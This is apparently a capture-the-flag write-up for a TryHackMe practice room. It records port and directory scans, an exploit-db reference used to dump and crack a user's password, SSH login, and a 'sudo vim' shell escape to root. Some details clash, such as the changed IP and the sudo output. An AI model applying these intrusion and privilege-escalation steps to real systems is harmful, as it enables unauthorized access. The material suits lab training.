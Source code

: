 ### ROOM
https://tryhackme.com/room/easyctf

### IP
10.10.216.181

### NMAP
sudo nmap -sV -sS -p-3000 10.10.216.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-05 00:28 -03
Nmap scan report for 10.10.216.181 (10.10.216.181)
Host is up (0.22s latency).
Not shown: 2997 filtered ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.72 seconds


### GoBuster
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.216.181
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/05 00:29:53 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
/simple (Status: 301)
===============================================================
2020/10/05 00:31:38 Finished
===============================================================

### CVE Found
- https://www.exploit-db.com/exploits/46635
### On run cve.py get
- [+] Salt for password found: 1dac0d92e9fa6bb2
- [+] Username found: mitch
- [+] Email found: admin@admin.com
- [+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
- [+] Password cracked: secret

### On enter in SSH
sudo ssh mitch@10.10.180.240 -p 2222
Run
- sudo -l 
sudo -l
User root may run the following commands on Machine:
    (ALL : ALL) ALL
Ou seja o vim pode executar comandos de root nesse user, então rodamos
sudo vim teste.txt
Dentro do vim :!sh
O sh abre um novo shell e usando o ! forçamos root
Então temos acesso root
 
